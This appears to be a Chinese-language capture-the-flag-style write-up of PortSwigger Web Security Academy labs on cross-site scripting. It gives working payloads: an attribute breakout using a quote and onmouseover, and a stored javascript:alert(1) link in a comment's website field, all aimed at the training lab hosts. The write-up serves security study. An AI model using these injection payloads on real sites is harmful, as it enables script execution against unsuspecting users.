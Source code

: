 ### 解答
發現 如果丟最基本的 XSS
```
https://ac4e1fb81fd35987c09c1b03005500aa.web-security-academy.net/?search=%3Cscript%3Ealert(1)%3C%2Fscript%3E
```

會被 HTML Entity 給 Encode

```
<input type=text placeholder='Search the blog...' name=search value="&lt;script&gt;alert(1)&lt;/script&gt;">
```



如果輸入 `123"` 的話，會變成

```
<input type=text placeholder='Search the blog...' name=search value="123"">
```

代表可以用 `"` 關閉 value 的雙引號

使用 `onmouseover` 這個事件，就過了

```
https://ac4e1fb81fd35987c09c1b03005500aa.web-security-academy.net/?search=123%22%20onmouseover=%22alert(1)
```

但我覺得沒有很清楚就是他不是打開就會跳 QQ


## [Lab: Stored XSS into anchor href attribute with double quotes HTML-encoded](https://portswigger.net/web-security/cross-site-scripting/contexts/lab-href-attribute-double-quotes-html-encoded)
### 題目敘述
 This lab contains a stored cross-site scripting vulnerability in the comment functionality. To solve this lab, submit a comment that calls the alert function when the comment author name is clicked. 
### 題目解釋
href 可以塞 `javascript:alert(1)`

### 解答
觀察留言的地方，送網址會讓使用者出現超連結
```
postId=7&comment=meow&name=aaa&email=meow%40meow.meow&website=http%3A%2F%2Fmeow.com
```

而題目有說如果雙引號會被 URL Encode，而題目又說觸發只需要點下去就好，所以我們不需要跳脫 href，可以直接用
```
javascript:alert(1)
```
就過關ㄌ
